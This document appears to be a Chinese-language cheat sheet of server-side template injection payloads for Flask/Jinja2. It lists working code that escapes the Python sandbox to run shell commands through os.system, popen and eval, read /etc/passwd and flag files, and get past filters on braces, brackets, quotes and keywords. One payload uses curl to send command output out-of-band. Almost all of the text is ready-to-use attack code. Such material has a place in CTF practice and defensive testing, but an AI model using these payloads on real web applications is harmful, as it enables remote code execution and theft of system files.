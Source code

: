 ```python
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__[%27open%27](%27/etc/passwd%27).read()}}
```

Flask 内置了两个函数 url_for 和 get_flashed_messages,还有一些内置的对象

```python
{{url_for.__globals__['__builtins__'].__import__('os').system('ls')}}
{{request.__init__.__globals__['__builtins__'].open('/flag').read()}}
```

**过滤双花括号时:**

```
#用{%%}标记
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
这样会没有回显,考虑带外或者盲注

# 用{% print %}标记,有回显
{%print config%}
```

**过滤了`[`时:**

```
#getitem、pop
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()
''.__class__.__mro__.__getitem__(2).__subclasses__().__getitem__(59).__init__.__globals__.__getitem__('__builtins__').__getitem__('__import__')('os').system('calc')
{%print+().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(133).__enter__.__globals__.get('po'+'pen')('id').read()%}

{% print ().__class__.__base__.getitem__(0).__subclasses__().getitem__(133).__enter__.__globals__.get('po'+'pen')('id').read() %}
```

**关键字过滤:**

如果没用过滤引号,使用反转,或者各种拼接绕过

```
{{''.__class__.__mro__[1].__subclasses__()[59].__init__.__globals__['__snitliub__'[::-1]]['eval']('__import__("os").popen("ls").read()')}}

{{''.__class__.__mro__[1].__subclasses__()[59].__init__.__globals__['__buil'+'tins__'[::-1]]['eval']('__import__("os").popen("ls").read()')}}
```

过滤了引号, 利用将需要的变量放在请求中,然后通过[],或者通过`attr`,`__getattribute__`获得

```
// url?a=eval
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.[request.args.a]('__import__("os").popen("ls").read()')

// Cookie: aa=__class__;bb=__mro__;cc=__subclasses__
{{((request|attr(request.cookies.get('aa'))|attr(request.cookies.get('bb'))|list).pop(-1))|attr(request.cookies.get('cc'))()}}
```

如果`request`被 ban,可以考虑通过`{{(config.__str__()[2])+(config.__str__()[3])}}`拼接需要的字符
查出`chr`函数,利用`set`赋值,然后使用

```
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read() }}
```